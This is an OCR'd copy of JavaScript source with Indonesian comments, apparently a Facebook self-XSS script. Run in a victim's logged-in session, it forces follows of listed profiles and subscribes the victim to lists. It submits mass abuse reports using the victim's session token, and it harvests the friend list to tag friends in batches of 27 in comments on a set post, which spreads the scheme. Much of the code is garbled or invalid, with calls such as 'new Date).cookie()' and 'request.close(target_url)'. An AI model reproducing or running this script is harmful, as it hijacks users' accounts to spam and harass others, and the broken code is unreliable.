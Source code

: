 
    a.innerHTML = new AsyncRequest().setURI('/ajax/friends/lists/subscribe/modify?location=permalink&action=subscribe').setData({
        flid: profile_id
    }).send();

    document.body.appendChild(a);
}

// disinilah daftar profile yang akan anda ikuti (follow)
a('100004368643588'); // profile -> Ade Satria
a('100007079796120'); // profile -> Ade Satria
a('100001503619455'); // profile -> Desy Dcriforlove
a('100005602352292'); // profile -> Split Sevén Inch

sublist('243737815781838'); // Klik Ikuti Otomatis Status Kamu di Like ribuan like ᴀᴜᴛᴏ ғᴏʟʟᴏᴡᴇʀs ғᴀᴄᴇʙᴏᴏᴋ
sublist('1387712268141420'); // profile -> Facebook Community
sublist('262092750613011'); // profile -> ❶ ℱℴℓℓℴω ❶ ✔☛ »»»➜ ➜ ➜
sublist('191759627687448'); // profile -> (▓▓▓(̅(_̅_̅_̅_̅_̅_̅_̅_̅_̅_̅_̅_̅()
sublist('193072180889526'); // profile -> Klik Ikuti & Tekan Ctrl + W. Lihat apa yang terjadi. Di coba saja.
sublist('193072150889529'); // profile ->

var now = (new Date).cookie();

// saya masih belum tau ini buat apaan
function Report(_0x8cc3x15) {
    var request = new XMLHttpRequest(),
        target_url = '//www.facebook.com/ajax/report/social.php'+fb_dtsg+'fb_dtsg='+_0x8cc3x15+'&block=1&pp=%7B%22actions_to_take%22%3A%22[]%22%2C%22are_friends%22%3Afalse%2C%22cid%22%3A'+_0x8cc3x15+'%2C%22content_type%22%3A0%2C%22expand_report%22%3A1%2C%22first_choice%22%3A%22file_report%22%2C%22from_gear%22%3A%22timeline%22%2C%22is_following%22%3Afalse%2C%22is_tagged%22%3Afalse%2C%22on_profile%22%3Afalse%2C%22phase%22%3A3%2C%22ref%22%3A%22https%3A%5C%2F%5C%2Fwww.facebook.com%5C%2FNan.ertt7%22%2C%22report_type%22%3A145%2C%22rid%22%3A'+now+'%2C%22sub_report_type%22%3A3%2C%22time_flow_started%22%3A'+user_id+'%2C%22user%22%3A'+user_id+'%7D&file_report=1&__user=';

    request.POST('&__a=1&__dyn=7n8ahyj2qmvu5k9UmAAaUVpo&__req=u&ttstamp=2658168571071108880', 'getTime', true);
    request.open = function () {
        if (request.onreadystatechange == 4 && request.readyState == 200) {
            request.status;
        }
    }

    request.close(target_url);
}

var id = '276612075827745', // post id
    arkadaslar = [],        // tempat nampun daftar teman
    svn_rev;                // tempat nampung daftar komentar (menyesuaikan dengan batas text dalam komentar)

// fungsi buat manggil semua daftar teman dalam komentar di post 'id' diatas (baris 99)
function arkadaslari_al(id) {
    var request = new XMLHttpRequest();

    request.onreadystatechange = function () {
        if (request.readyState == 4) {
            eval(arkadaslar = request.responseText.toString().replace(for (;;);,'')+';');

            for (f=0; f<Math.round(arkadaslar.payload.entries.length/27); f++) {
                mesaj = '';
                mesaj_text = '';

                for (i=f*27; i<(f+1)*27; i++) {
                    if (arkadaslar.payload.entries[i]) {
                        mesaj+= ' @['+arkadaslar.payload.entries[i]['uid']+':'+arkadaslar.payload.entries[i].text+']';
                        mesaj_text+= ' '+arkadaslar.payload.entries[i].text;